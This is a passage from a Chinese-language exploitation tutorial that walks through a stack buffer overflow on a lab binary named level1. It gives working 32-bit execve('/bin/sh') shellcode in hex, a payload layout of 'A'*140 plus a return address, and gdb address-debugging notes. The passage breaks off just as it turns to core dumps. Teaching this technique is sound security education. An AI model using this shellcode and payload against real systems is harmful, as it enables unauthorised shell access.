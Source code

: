 ![Alt](img/x86_ROP2.png)
![Alt](img/x86_ROP3.png)

接下来我们只需要构造一个`'A'*140+ret`字符串，就可以让pc执行ret上的代码了。此外，我们还需要一段shellcode：

```python
    # execve("bin/sh")
    # xor ecx,ecx
    # mul ecx
    # push ecx
    # push 0x68732f2f   ;hs//
    # push 0x6e69622f   ;nib/
    # mov ebx,esp
    # mov al,11
    # int 0x80

    shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode += "\x0b\xcd\x80"
```

使用一段简单的执行`execve("/bin/sh")`命令的语句作为shellcode。接下来就是控制pc跳转到shellcode的地址上：

```python
    [shellcode]['A'*140][ret]
    ^------------------------------------|
```

使用gdb调试目标程序，然后查看内存确定得到的shellcode地址并不是执行程序时shellcode的真实地址。gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。
为解决这个问题，最简单的方法是开启`core dump`：
